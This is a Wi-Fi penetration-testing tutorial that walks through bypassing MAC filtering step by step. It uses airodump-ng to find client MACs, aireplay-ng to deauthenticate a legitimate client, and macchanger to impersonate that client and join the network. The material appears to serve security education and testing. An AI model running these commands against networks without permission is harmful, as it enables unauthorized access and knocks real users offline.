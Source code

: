 # Wi-Fi Pentesting Chain #9: Bypassing MAC Filtering

MAC filtering is a weak access control method where only devices with approved MAC addresses are allowed to connect. Since MAC addresses can be spoofed, this control can be bypassed.

---

## Step 1: Identify Target Network and Clients

1. Put your interface into monitor mode if it’s not already:
   ```bash
   sudo airmon-ng start wlan0
   ```

2. Use `airodump-ng` to scan for networks and associated clients:
   ```bash
   sudo airodump-ng wlan0mon
   ```

   **What you’re looking for:**
   - Target **BSSID** (the AP’s MAC address).
   - **ESSID** (network name).
   - **Client MAC addresses** (STATION field).

   **Diversion:**
   - If you see **no clients connected**, MAC spoofing won’t help unless you know an allowed MAC address. You may have to wait until a client connects.

---

## Step 2: Select a Client MAC Address to Imitate

- Pick one of the connected client MACs.
- Note that if you spoof an address that is still connected, you’ll cause **MAC collisions**, which may:
  - Disrupt both connections.
  - Trigger suspicion.

**Better approach:**
- Wait until the client disconnects naturally.
- Or force the client to disconnect using a **deauthentication attack**:
  ```bash
  sudo aireplay-ng -0 5 -a <BSSID> -c <Client_MAC> wlan0mon
  ```

---

## Step 3: Spoof Your MAC Address

1. Stop monitor mode to work with a managed interface:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Check your current MAC address:
   ```bash
   sudo macchanger -s wlan0
   ```

3. Change your MAC address to the client’s MAC:
   ```bash
   sudo ifconfig wlan0 down
   sudo macchanger wlan0 -m <Client_MAC>
   sudo ifconfig wlan0 up
   ```

4. Verify the change:
   ```bash
   ifconfig wlan0
   ```

---

## Step 4: Connect to the Network

- Now that your MAC matches an authorized client, connect normally with the password:
  ```bash
  sudo wpa_supplicant -c wpa.conf -i wlan0 &
  sudo dhclient wlan0
  ```

**Diversion:**
- If the AP also has a **5 GHz band** with no active clients, spoof a client’s MAC from 2.4 GHz but connect to 5 GHz. This avoids collisions.

---

## Step 5: Confirm Successful Connection

- Check that you have an IP:
  ```bash
  ifconfig wlan0
  ```
- Verify connectivity with ping:
  ```bash
  ping -c 4 8.8.8.8
  ```

If successful, you’ve bypassed MAC filtering.